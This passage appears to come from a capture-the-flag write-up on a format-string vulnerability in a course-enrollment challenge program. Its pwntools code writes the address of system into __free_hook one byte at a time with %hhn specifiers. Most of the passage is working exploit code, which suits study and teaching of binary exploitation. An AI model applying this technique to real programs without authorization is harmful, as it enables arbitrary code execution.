 You may also ask, why can't we just pass the GOT entry address into `email` to dereference it?
That is because `email` is a variable on the stack, if we input the GOT entry address into the email variable, we are doing something 
```c
email = p64(elf.got(puts))
printf("Email: %s\n",email); 
```
then `%s` would just dereference that particular `email` variable of the stack  
### Overwriting __free_hook 
To overwrite `__free_hook`, we do it the same way as how we dereference and read content of something while we leak the libc address.   
The difference is just that this time, we are putting the stuff that we wish to overwrite into the `email` variable. Then we overwrite with `$hhn` format specifier that is stored in `reasonBuf` on the heap!  
Here is an example,  
```py
format_specifiers = b'%144c%8$hhn' # 0x90

address_payload = free_hook_addr # starts writing at the very last bytes of __free_hook

p.sendlineafter(b"6. Quit", b'1')
p.sendlineafter(b"ITSC email:", p64(address_payload)) # store it on stack first, in email at %8$p!
p.sendlineafter(b"late enrollment:", format_specifiers) # %7$p would be format specifiers %144c%8$hhn that writes 0x90


p.sendlineafter(b"6. Quit", b'4')
p.recvuntil(b"Reason for late enrollment:\n")



bytes = (sys_addr >> 8) & 0xff # the second last byte of system address during the runtime 
format_specifiers = f'%{bytes}c%8$hhn'.encode() # format the format specifiers
#print(bytes)
address_payload = free_hook_addr + 1 # the second last byte of __free_hook


p.sendlineafter(b"6. Quit", b'1')
p.sendlineafter(b"ITSC email:", p64(address_payload))
p.sendlineafter(b"late enrollment:", format_specifiers) # now buffer also at %7$p


p.sendlineafter(b"6. Quit", b'4')
p.recvuntil(b"Reason for late enrollment:\n")


# and so on... 
```

With that in mind, we can use a loop to write the entire `__free_hook` address to `system`:  
```py
for i in range(6):
    if i == 0:
        format_specifiers = b'%144c%8$hhn' # writes 90 at the ending byte
    else:
        bytes = (sys_addr >> i * 8) & 0xff
        format_specifiers = f'%{bytes}c%8$hhn'.encode()

    address_payload = free_hook_addr + i

    p.sendlineafter(b"6. Quit", b'1')
    p.sendlineafter(b"ITSC email:", p64(address_payload))
    p.sendlineafter(b"late enrollment:", format_specifiers) # now buffer also at %7$p

```